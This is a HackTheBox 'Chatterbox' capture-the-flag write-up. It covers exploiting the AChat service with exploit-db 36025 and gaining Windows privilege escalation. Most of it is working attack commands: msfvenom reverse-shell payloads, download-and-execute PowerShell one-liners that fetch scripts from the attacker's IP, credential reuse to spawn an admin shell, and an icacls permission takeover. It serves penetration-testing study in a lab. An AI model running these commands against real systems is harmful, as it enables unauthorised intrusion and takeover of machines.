

# HackTheBox - Chatterbox

### What I Learned

1. Can run different versions of python depending on what is needed (python3, python2.7)
2. Buffer Overflows require a lot of encoding work, but you can execute commands
3. If the usual files do not work, try downloading a privilege escalation tool like `/usr/share/windows-resources/powersploit/Privesc/PowerUp.ps1` OR `winPEAS`

  
<strong>Writeup Summary</strong>

  Scan the machine and find an instance of achat running. Look on exploitdb and find an exploit for it. Run the MSFVenom command from the exploit and then upload it to the target machine.  
  From there, you have 2 ways to get a root shell

1. Create a variable to pass the variable and run commands as a different user and add a new credential, then pass the credential to a command that opens a powershell as the new user (root).
2. Check the Permissions of the files using Get-ACL in powershell. Find that Admin has access to the flag, but Alfred has ownership permissions. Use icacls to change the permissions and allow Alfred to read the file.

    

## Writeup

Perform an nmap scan

Was supposed to find 2 out of the ordinary ports open on 9255 and 9256

- Scan those 2 ports
- `nmap -p 9255,9256 -sC -sV -oA nmap/targeted 10.129.53.27`

Machine is running an instance of `achat`

- Look for exploits involving achat
- Find 36025

Run the msfvenom command at the top of the exploit file with added host and port numbers to get the buffer

- `msfvenom -a x86 --platform Windows -p windows/powershell_reverse_tcp LHOST=10.10.14.209 LPORT=8585 -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python`

The payload is 15k bytes, much larger than what is allowed, so change the command to download a file from local

- Need double quotes and to escape them
- File extension doesn't matter
- `windows/exec CMD="powershell \"IEX(New-Object Net.webClient).downloadString('http://10.10.14.209/specialfile.ipp')\""`

  - `msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell \"IEX(New-Object Net.webClient).downloadString('http://10.10.14.209/specialfile.ipp')\"" -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python`

- BufferRegister=EAX - once the buffer overflow happens, that's where the actual jump call should actually be
  - So once the buffer overflow happens, EAX is pointing to the buffer after -b

Set a listener and a python server.
Run the command using

- `python2.7 36025.py`

Get a shell with the user `alfred`

## First way to Get a Shell

Version of windows running

- WINDOWS 7 PROFESSIONAL SERVICE PACK 1

Check for .dat files

- `Get-Childitem -Path C:\progra~1 -Filter \*.dat -Recurse -ErrorAction SilentlyContinue -Force`

Copy useful/interesting files over to Kali using an SMB share

- `net use \\<KALI_IP>\SHARE /user:User Pass`
- `copy <FILEPATH>/file.txt \\10.10.14.209\SHARE`

- C:\Windows\System32\com\comempty.dat
- C:\ProgramData\Microsoft\User Account Pictures
- C:\Boot

Look around for a bit, but don't find anything. Use a script to enumerate instead.

- `cp /usr/share/windows-resources/powersploit/Privesc/PowerUp.ps1 .`
- Get the powerUp file from Kali
  - `IEX(New-Object Net.WebClient).downloadString('http://10.10.14.209/PowerUp.ps1')`
    Run the PowerUp module
- Invoke-AllChecks

Don't get much information from PowerUp.
Alfred : Welcome1!

Create a variable to pass the variable and run commands as a different user

- `$SecPass = ConvertTo-SecureString 'Welcome1!' -AsPlainText -Force`
  - `$cred = New-Object System.Management.Automation.PSCredential('Administrator',$SecPass)`  
    Now pass the credential to a command
- `Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.webClient).downloadString('http://10.10.14.209/revsh2.ps1')" -Credential $cred`

Now you have a shell as an admin

## Second way to get a shell

Check the Access Control List for the administrator and show them as a formatted list

- `Get-ACL administrator | Fl \*`
- Alfred has full control of strings in the administrator directory
  
  CD to the directory with the root file (Admin desktop)
  Check the root.txt file

- Only the admin has access to the file, BUT Alfred is the owner
- so edit the permissions
- `Get-ACL root.txt | Fl \*`
  
  Use icacls to change the permissions

- /e -> edit ACL
- /t -> change ACL of specified file
- /p -> user
- :F -> Full permission
- `icacls root.txt /t /e /p alfred:F`

Read the file and get the flag
